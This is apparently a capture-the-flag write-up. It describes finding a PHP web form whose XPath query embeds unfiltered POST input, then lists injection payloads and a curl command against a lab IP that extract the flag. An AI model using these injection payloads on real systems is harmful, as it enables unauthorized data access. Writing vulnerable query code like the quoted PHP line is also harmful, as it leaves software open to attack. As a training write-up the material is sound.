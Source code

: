 # Portscan

Scanning the host with [nmap](../nmap.txt) reveals an http server on port `64234`.

There is a scary website with a form.

![](screenshots/1.png)

# Gitlab

There is a gitlab link with the user [Erstuujnszki](https://gitlab.com/Erstuujnszki), with some recent activity in the [blu](https://gitlab.com/ctf9353735/blu) repository ([blu.zip](workdir/blu.zip))

![](screenshots/2.png)

# Source code

The code is vulnerable to XPath injection. The user input is used in the query without filtering.

```php
$results = $xml->xpath("/users/user[name='{$_POST['name']}']/task");
```

# Exploit

Using crafted queries, the data printed can be controlled.

* `' or 1 and position()='1`
* `' or 1]\x00`
* `' or 1]/..//name\x00`
* `' or 1]/../..//name\x00`
* `' or 1]/../..//text()\x00`

![](screenshots/3.png)

The underelying xml structure and content can be slowly recovered with various queries or tools like `xcat`.

A more simpler method is just query for the flag format.

```bash
curl -s -X POST 'http://10.10.1.10:64234/index.php' --data-binary "input=$(printf %s "' or 1]/../..//*[text()[contains(.,'CQ24')]]"|jq -sRr @uri)%00"
```

![](screenshots/4.png)

# Flag
`CQ24{DonTHugMeIAmScared}`